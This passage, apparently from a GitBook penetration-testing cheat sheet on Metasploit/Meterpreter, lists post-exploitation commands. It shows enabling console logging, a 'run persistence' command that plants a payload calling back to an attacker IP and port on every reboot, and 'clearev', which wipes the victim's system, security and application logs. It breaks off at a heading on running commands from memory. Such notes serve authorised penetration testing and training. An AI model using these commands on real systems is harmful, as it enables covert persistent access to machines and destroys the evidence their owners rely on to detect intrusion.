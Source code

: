 run the attack:

![](<../../.gitbook/assets/image (291) (1) (1).png>)

using tor is extremely slow ad your session may timeout, play around with timeout values.

## <mark style="color:red;">Logging</mark>

every command will be logged in a file named console.log in `~/.msf4/logs`

```
se consolelogging true
```

## <mark style="color:red;">Auto Persistence</mark>

```
run persistence –A –L [directory to put payload] -X [connection attempt intervals/sec]  –p [attacker port] –r [attaacker ip]
```

```
-A for auro starting listener
-X for starting at reboot
 
# for help:
run persistance -h 
#run persistence –A –L c:\\ -X 30 –p 443 –r 192.168.1.113
```

## <mark style="color:red;">Clear Victim System Logs</mark>&#x20;

(system, security & application logs)

```
clearev
```

## <mark style="color:red;">Execute Commands Directly From Memory</mark>
